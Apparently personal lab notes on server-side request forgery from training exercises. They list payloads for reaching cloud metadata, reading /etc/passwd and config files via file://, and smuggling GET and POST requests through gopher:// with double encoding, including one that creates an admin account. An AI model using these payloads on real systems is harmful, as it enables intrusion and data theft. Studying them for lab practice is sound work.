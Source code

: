 #### SSRF

```
curl http://127.0.0.1:8080

```

##### Private IP addresses

|IP ADDRESS RANGE	|NUMBER OF ADDRESSES|
|-----------------|-------------------|
|10.0.0.0/8	|16,777,216|
|172.16.0.0/12	|1,048,576|
|192.168.0.0/16	|65,536|

An attacker exploiting an SSRF vulnerability in an AWS cloud environment could potentially access this metadata service and obtain sensitive data at 169.254.169.254.
Others provide access through DNS, such as Google Cloud, which uses metadata.google.internal.
https://cloud.google.com/compute/docs/metadata/overview

Start a webserver on kali and try to access it in case the response is not available.

Sol:
check which page is requested. Then touched that page and started python http server and got flag.


http://metadata.web200.local/latest/meta-data/flag

http://localhost/flag


##### Schemes

http
https
file
ftp

file:///c:/windows/win.ini

file:///etc/passwd

Curl supports gopher protocol

```
curl gopher://127.0.0.1:9000/_GET%20/hello_gopher%20HTTP/1.1
```

we may need to include a line feed character (%0a) and a Host header. Since we are including the GET request as part of the path, we can easily change it to a different HTTP method

we may need to include a line feed character (%0a) and a Host header. Since we are including the GET request as part of the path, we can easily change it to a different HTTP method.

We need to include port 80 in our URL because the Gopher service normally runs on port 70.


```
gopher://127.0.0.1:80/_GET%20/status%20HTTP/1.1%0a

gopher://127.0.0.1:80/_POST%20/status%20HTTP/1.1%0a

```

our browser URL-encodes the percent signs, creating double encoded3 values.
If we tried to replicate this attack using curl on our Kali VM, we would encounter a problem. The application does not receive the exact payload we've entered in our browser.
The application first processes it as the request to /preview. This request triggers the SSRF attack, which sends another request, in this case the GET request to 127.0.0.1/status. Since the payload values are double encoded, the application does not fully decoded the payload until it processes the second request.

In the case of the percent sign, this resulted in each space character being double URL-encoded as "%2520". The application essentially processes our request twice. The application first processes it as the request to /preview. This request triggers the SSRF attack, which sends another request, in this case the GET request to 127.0.0.1/status. Since the payload values are double encoded, the application does not fully decoded the payload until it processes the second request.


If we were to replicate this attack from curl or in the Repeater tool of Burp Suite, we would need to double encode any non-alphanumeric characters as well.

1 (Wikipedia, 2021), https://en.wikipedia.org/wiki/File_URI_scheme ↩︎

2 (Wikipedia, 2021), https://en.wikipedia.org/wiki/Gopher_(protocol) ↩︎

3 (OWASP Foundation, 2021), https://owasp.org/www-community/Double_Encoding ↩︎


From status page get location of config file.

file:///app/config.ini


http://ssrf-sandbox/protectedflag?password=twasbryllyg

-----
Below 3 flag are same:

http://backend/flag

gopher://127.0.0.1:80/_GET%20/gateway/flag?apiKey=chesirecat%20HTTP/1.1%0a

gopher://backend:80/_GET%20/flag?apiKey=chesirecat%20HTTP/1.1%0a

------
Below 2 flags are same:

http://localhost/flag

gopher://localhost:80/_GET%20/flag%20%0a

```
POST /preview HTTP/1.1
Host: ssrf-sandbox
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
Origin: http://ssrf-sandbox
Connection: close
Referer: http://ssrf-sandbox/preview
Upgrade-Insecure-Requests: 1

url=gopher%3A%2F%2F127.0.0.1%3A80%2F_GET%2520%2Fgateway%3FapiKey%3Dchesirecat%2520HTTP%2F1.1%250a&utility=curl
```
Tried below...  worked
```
POST /preview HTTP/1.1
Host: ssrf-sandbox
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 280
Origin: http://ssrf-sandbox
Connection: close
Referer: http://ssrf-sandbox/preview
Upgrade-Insecure-Requests: 1

url=gopher%3A%2F%2Fbackend%3A80%2F_POST%2520%2Flogin%2520HTTP%2F1.1%250d%250aHost%3A%2520backend%3A80%250d%250aContent-Type%3A%2520application%2Fx-www-form-urlencoded%250d%250aContent-Length%3A%252041%250d%250a%250d%250ausername%3Dwhite.rabbit%26password%3Ddontbelate&utility=curl

```

In browser URL field:
```
gopher://backend:80/_POST%20/login%20HTTP/1.1%0d%0aHost:%20backend:80%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0aContent-Length:%2041%0d%0a%0d%0ausername=white.rabbit&password=dontbelate

```

Had to access using backend as /gatewaylogin didn't support POST Method


###### Groupoffice

```
POST /index.php?r=summary/rssFeed/proxy&security_token=S37qk6Z1CJnNQtKAxETM HTTP/1.1
Host: groupoffice
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en
Accept-Encoding: gzip, deflate
Authorization: Bearer 6427000c78ba4493edc30d6876c9af22e4879b01c5b19
X-Requested-With: XMLHttpRequest
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 61
Origin: http://groupoffice
Connection: close
Referer: http://groupoffice/?SET_LANGUAGE=en
Cookie: groupoffice=99cm83u18a7bliboqj522sv8a1; accessToken=6427000c78ba4493edc30d6876c9af22e4879b01c5b19; GO_LANGUAGE=en

feed=http%3A%2F%2Fflag%2f&security_token=S37qk6Z1CJnNQtKAxETM

```

Use apache server. That way you will get the client utility accessing the url.


Req:

```
gopher://127.0.0.1:80/_POST /api/admin/create HTTP/1.1
Host: 127.0.0.1:80
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

username=white.rabbit&password=dontbelate
```
Single encoding:
```
gopher://127.0.0.1:80/_POST%20/api/admin/create%20HTTP/1.1%0d%0aHost:%20127.0.0.1:80%0d%0aContent-Type:%20application/x-www-form-urlencoded%0d%0aContent-Length:%2041%0d%0a%0d%0ausername=white.rabbit&password=dontbelate

```
Double encoding:
```
gopher%3A%2F%2F127.0.0.1%3A80%2F_POST%2520%2Fapi%2Fadmin%2Fcreate%2520HTTP%2F1.1%250d%250aHost%3A%2520127.0.0.1%3A80%250d%250aContent-Type%3A%2520application%2Fx-www-form-urlencoded%250d%250aContent-Length%3A%252041%250d%250a%250d%250ausername%3Dwhite.rabbit%26password%3Ddontbelate
```
